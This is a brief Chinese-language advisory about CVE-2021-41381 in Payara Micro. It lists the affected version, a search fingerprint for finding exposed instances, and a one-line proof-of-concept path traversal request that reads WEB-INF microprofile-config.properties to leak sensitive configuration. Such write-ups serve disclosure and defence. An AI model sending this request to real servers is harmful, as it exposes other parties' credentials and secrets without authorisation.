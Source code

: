 # PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381

## 漏洞描述

PayaraMicro microprofile-config.properties文件配置错误的情况下可被任意用户读取，获取敏感信息

## 漏洞影响

```
Payara Micro Community 5.2021.6
```

## 网络测绘

```
app="Payara-Micro"
```

## 漏洞复现

产品页面

![image-20220525163706617](./images/202205251637689.png)

验证POC

```
/.//WEB-INF/classes/META-INF/microprofile-config.properties
```

![image-20220525163715004](./images/202205251637074.png)